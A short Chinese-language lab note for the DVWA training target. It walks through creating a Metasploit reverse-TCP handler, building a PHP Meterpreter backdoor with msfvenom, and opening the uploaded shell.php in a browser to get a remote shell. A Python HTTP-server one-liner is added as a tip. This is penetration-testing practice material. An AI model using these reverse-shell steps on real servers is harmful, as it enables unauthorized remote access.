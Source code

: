 

## 练习

> dvwa靶场
>
> IP地址:http://192.168.101.143/dvwa/login.php



* 设置监控--使用handler模块

  * use exploit/multi/handler

* 设置攻击载荷

  1. 设置payload

     1. > set payload php/meterpreter/reverse_tcp

  2. 设置LHOST&&LPORT

     1. set lhost 192.168.1.129
     2. set lport 4444

* 监听当前设置的端口程序

  * run | exploit

* 生成PHP后门程序

  * ```shell
    msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.101.129 lport=4449 R >shell.php
    ```

* 将后门上传到该后台中

  * 略

* 在浏览器中访问该文件的地址

  * http://192.168.101.143/dvwa/../../hackable/uploads/shell.php

* 完成



tips:

简单的ftp下载器:

```python
#python2
python -m SimpleHTTPServer 8000

#python3
python3 -m http.server 8000
```













![image-20220925144159670](https://raw.githubusercontent.com/r0o983/images/main/image-20220925144159670.png)



